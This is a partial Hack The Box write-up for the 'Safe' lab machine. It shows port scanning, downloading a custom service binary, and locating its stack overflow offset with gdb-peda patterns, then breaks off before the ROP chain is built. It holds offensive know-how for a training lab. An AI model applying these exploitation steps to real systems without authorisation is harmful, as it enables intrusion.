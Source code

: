 ```yaml
---
layout: post
title: Safe
categories: [HTB Writeup, Safe]
tags: [RCE, ROP chain, enumeration, HTB]
fullview: false
comments: true
---
```


![Safe info card](/images/safe_card.png)

A 20 point box where the foothold requires a binary exploitation/ROP. However, it gets much easier from there and the ROP is fairly straight forward.  

So let's get started.

## TL;DR

* enumerate the box to find a service (with a custom binary) on port 1337
* Identify the buffer overlfow and create a ROP chain to gain a foothold
* from shell, locate a KeePass vault with images
* crack the KeePass vault using one of the image files to gain root

## Initial Enumeration

{% highlight Fortran linenos %}
db-d2@kali:~/hack_the_box$ nmap -sC -sV -sT -o safe_map 10.10.10.147
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.147
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.31 seconds
{% endhighlight %}

So we have http on 80 and ssh on 22. Let's check the http site

## Web Enumeration

![Safe http site](/images/safe_http.png)

Looks like the default apache page but let's inspect it anyway

![Safe http source](/images/safe_http_src.png)

So "myapp" is running on p1337 and it's available for download. Let's check out the service first

{% highlight Fortran linenos %}
db-d2@kali:~/hack_the_box$ nc 10.10.10.147 1337
 21:05:13 up 27 min,  0 users,  load average: 0.00, 0.00, 0.00
hello

What do you want me to echo back? hello
{% endhighlight %}

Not much here, let's grab myapp and take a look

{% highlight Fortran linenos %}
db-d2@kali:~/hack_the_box$ wget http://10.10.10.147/myapp
  http://10.10.10.147/myapp
Connecting to 10.10.10.147:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16592 (16K)
Saving to: ‘myapp’

myapp 100%[==============================================>]  16.20K  --.-KB/s  in 0.05s

db-d2@kali:~/hack_the_box$ sudo chmod +x myapp
[sudo] password for db-d2:

db-d2@kali:~/hack_the_box$ ./myapp
 21:43:47 up 58 min,  3 users,  load average: 0.01, 0.01, 0.00

What do you want me to echo back? bob
bob
{% endhighlight %}

## Myapp
Okay so we have a pretty basic app that starts off with uptime, 
takes input and echos it back. Let's see if we have a buffer overflow in here

{% highlight Ada linenos %}
What do you want me to echo back? yipyipyipyipyipyipyipyipyipyip...
...
Segmentation fault
{% endhighlight %}

And jackpot! Let's break it open in gdb and run checksec (btw, if you're not using [Peda](https://github.com/longld/peda) you should install it now)

{% highlight Fortran linenos %}
Reading symbols from ./myapp...
(No debugging symbols found in ./myapp)
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
{% endhighlight %}

NS is enabled so I won't be able to just inject and execute shellcode. I'll have to build a ROP chain. Oh, darn...

First up, I need to find the offest so let's create a pattern

{% highlight Fortran linenos %}
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHA...'
gdb-peda$

gdb-peda$ r
Starting program: /home/db-d2/hack_the_box/myapp
[Detaching after vfork from child process 775755]
 21:10:11 up 10 days, 24 min,  2 users,  load average: 0.00, 0.00, 0.00

What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA...

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ecfff3 (<__GI___libc_write+19>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x4052a0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcA")
RDI: 0x7ffff7fa2670 --> 0x0
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffe448 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x4011ac (<main+77>:	ret)
R8 : 0xc9
R9 : 0x0
R10: 0xfffffffffffff41f
R11: 0x246
R12: 0x401070 (<_start>:	xor    ebp,ebp)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:	call   0x401030 <puts@plt>
   0x4011a6 <main+71>:	mov    eax,0x0
   0x4011ab <main+76>:	leave
=> 0x4011ac <main+77>:	ret
   0x4011ad:	nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:	push   r15
   0x4011b2 <__libc_csu_init+2>:	mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:	push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe448 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7fffffffe450 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7fffffffe458 ("AAQAAmAARAAoAASAApAATAAqAAUAAAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7fffffffe460 ("RAAoAASAApAATAAqAAUAArAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0032| 0x7fffffffe468 ("ApAATAAqAAUAArAAVAAAAuAAXAAvAAYAAwAAZAAxAAyA")
0040| 0x7fffffffe470 ("AAUAArAAVAAtAAWAXAAvAAYAAwAAZAAxAAyA")
0048| 0x7fffffffe478 ("VAAtAAWAAuAvAAYAAwAAZAAxAAyA")
0056| 0x7fffffffe480 ("AuAAXAAAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ac in main ()
{% endhighlight %}

So we stopped on ret as it was trying to load the next stack item into the RIP. Awesome, let's own the RIP. I'll copy out "jAA9AAOA" and use it to locate the offset

{% highlight Awk linenos %}
gdb-peda$ pattern_offset jAA9AAOA
jAA9AAOA found at offset: 120
{% endhighlight %}

Now i'll create a new pattern with a size of 120 and throw in 8 junk chars at the end

{% highlight Fortran linenos %}
gdb-peda$ pattern create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAK
AAgAA6AALAAhAA7AAMAAiAA8AANAA'

gdb-peda$ r
Starting program: /home/db-d2/hack_the_box/myapp
[Detaching after vfork from child process 775918]
 22:25:55 up 10 days,  1:40,  2 users,  load average: 0.00, 0.00, 0.00

What do you want me to echo back? AAA%AAsAABAA$AAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1KAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ecfff3 (<__GI___libc_write+19>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x4052a0 ("AAA%AAsAABAA$AAnAACAAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere\n")
RDI: 0x7ffff7fa2670 --> 0x0
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffe448 ("helothere")
RIP: 0x4011ac (<main+77>:	ret)
R8 : 0x82
R9 : 0x0
R10: 0xfffffffffffff41f
R11: 0x246
R12: 0x401070 (<_start>:	xor    ebp,ebp)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:	call   0x401030 <puts@plt>
   0x4011a6 <main+71>:	mov    eax,0x0
   0x4011ab <main+76>:	leave
=> 0x4011ac <main+77>:	ret
   0x4011ad:	nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:	push   r15
   0x4011b2 <__libc_csu_init+2>:	mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:	push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe448 ("helothere")
0008| 0x7fffffffe450 --> 0x7fffffff0065 --> 0x0
0016| 0x7fffffffe458 --> 0x100000000
0024| 0x7fffffffe460 --> 0x40115f (<main>:	push   rbp)
0032| 0x7fffffffe468 --> 0x7ffff7e077d9 (<init_cacheinfo+297>:	mov    rbp,rax)
0040| 0x7fffffffe470 --> 0x0
0048| 0x7fffffffe478 --> 0x35136ec0411f0d74
0056| 0x7fffffffe480 --> 0x401070 (<_start>:	xor    ebp,ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ac in main ()
{% endhighlight %}

Cont...

